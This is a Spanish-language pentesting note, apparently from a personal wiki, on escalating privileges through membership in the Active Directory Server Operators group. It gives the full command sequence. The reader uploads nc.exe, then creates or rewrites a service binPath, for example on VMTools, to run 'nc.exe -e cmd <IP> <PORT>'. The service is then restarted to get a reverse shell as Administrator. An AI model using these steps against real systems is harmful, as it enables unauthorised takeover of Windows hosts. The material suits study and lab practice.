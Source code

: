```yaml
---
icon: server
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# A.D. Group Server Operators

Estando dentro de este grupo y pudiendo para y correr servicios del sistema se puede escalar privilegios de la siguiente manera...

Primero veremos en nuestro `host` donde esta el `nc.exe` para que sirva en `Windows`....

```shell
locate nc.exe
```

Info:

```
/usr/share/windows-resources/binaries/nc.exe
```

Nos copiamos ese `.exe` a nuestro directorio actual para pasarlo a la maquina `Windows`...

```shell
cp /usr/share/windows-resources/binaries/nc.exe .
```

Hacemos un `pwd` para ver en la ruta actual en la que estamos y en la que hemos llevado el archivo, en mi caso...

```
/home/kali/Desktop
```

Por lo que en la maquina `Windows` haremos lo siguiente para pasarnoslo...

```shell
upload /home/kali/Desktop/nc.exe
```

Una vez hecho esto ya estaria el `nc.exe` ya estaria en la maquina `Windows`...

Ahora lo que haremos sera arrancar un servicio ya que estamos en el grupo para poder hacerlo, de la siguiente manera haciendo una reverse shell y como lo esta ejecutando por asi decirlo el `administrador` conseguiriamos una shell como el mismo...

```shell
sc.exe create reverse binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

Con esto lo que estamos haciendo es crear un servicio de que cuando se inicie cierto servicio arranque el `nc.exe` que se encuentra en ese `PATH` ejecutando el mismo una `Reverse Shell` con los siguientes paraemtros...

Ahora nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```

Pero si al crear eso nos pone `Access Denied` manipularemos un servicio que ya este creado de la siguiente manera...

Lo miraremos con `services` los servicios que estan abiertos y eligiendo uno de ellos le cambiaremos la configuracion de la siguiente manera...

```shell
sc.exe config <SERVICE_NAME> binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

> EJEMPLO

```shell
sc.exe config VMTools binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

A lo mejor no te deja con todos los servicios pero es ir probando hasta que te deje cambiarle la configuracion alguno de ellos...

Si encontramos uno que te deje cambiar la configuracion, haremos lo siguiente...

```shell
sc.exe stop <SERVICE_NAME>
```

```shell
sc.exe stop VMTools
```

Y ahora estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

Ahora en la maquina `Windows` iniciamos el servicio para que se inicie la `Reverse Shell`...

```shell
sc.exe start <SERVICE_NAME>
```

```shell
sc.exe start VMTools
```

Y con esto ya habriamos conseguido una `Reverse Shell` como `Administrador` en la maquina `Windows`...

